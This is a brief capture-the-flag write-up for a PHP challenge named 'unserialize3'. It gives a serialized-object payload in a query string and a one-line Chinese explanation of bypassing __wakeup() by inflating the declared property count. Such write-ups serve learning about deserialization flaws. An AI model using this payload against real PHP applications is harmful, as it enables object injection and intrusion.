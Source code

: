 # unserialize3

> payload: ?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

绕过__wakeup()原理：  

当对象属性的个数大于真实对象的个数时，__wakeup()不会执行。